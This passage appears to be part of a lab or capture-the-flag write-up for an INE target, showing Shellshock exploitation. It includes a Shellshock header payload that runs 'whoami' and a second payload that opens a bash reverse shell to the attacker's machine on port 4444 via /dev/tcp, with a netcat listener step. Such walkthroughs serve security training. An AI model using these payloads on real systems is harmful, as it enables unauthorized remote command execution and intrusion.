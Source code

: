 ```
() { :; }; echo; echo; /bin/bash -c 'whoami'
```

<img alt="" class="bh er pi c jop-noMdConv" width="700" height="319" loading="lazy" role="presentation" src="resources/1_UaTaVuGHWpozQdfbCSYIqg.png" style="box-sizing: inherit; vertical-align: middle; background-color: rgb(255, 255, 255); width: 680px; max-width: 100%; height: auto;">

Let’s move to flag 2.

**flag 2** : “In the server's root directory, there might be something hidden. Explore '/opt/apache/htdocs/' carefully to find the next flag on target1.ine.local.”

# 2\. Hidden Files

So as you can see, **flag 2** is located in ‘/opt/apache/htdocs/’. It is not always easy to change the command and run it in the above given method, so let’s get a reverse shell for this. For that, use the following command and replace as given in the above process.

```
() { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/kali-machine-ip/4444 0>&1'
```

Replace the attack machine’s IP address on “kali-machin-ip” given in the command.

Start the **netcat** listener on port 4444.
